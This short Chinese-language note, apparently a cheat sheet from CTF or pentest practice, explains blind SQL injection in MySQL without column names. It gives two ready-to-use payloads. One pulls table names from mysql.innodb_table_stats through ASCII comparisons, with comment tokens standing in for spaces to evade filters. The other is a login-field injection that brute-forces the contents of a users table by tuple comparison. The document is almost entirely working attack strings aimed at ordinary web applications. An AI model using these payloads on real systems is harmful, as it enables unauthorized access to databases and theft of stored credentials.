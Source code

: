 无列名盲注比较法：
admin'||ascii(substr((select/**/1,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),1,1))>0#
使用mysql.innodb_table_stats获取表名
然后构造
username=admin'||/**/('1','tanji','z')<(select/**/*/**/from/**/users/**/limit/**/0,1)#&password=admin
爆破注入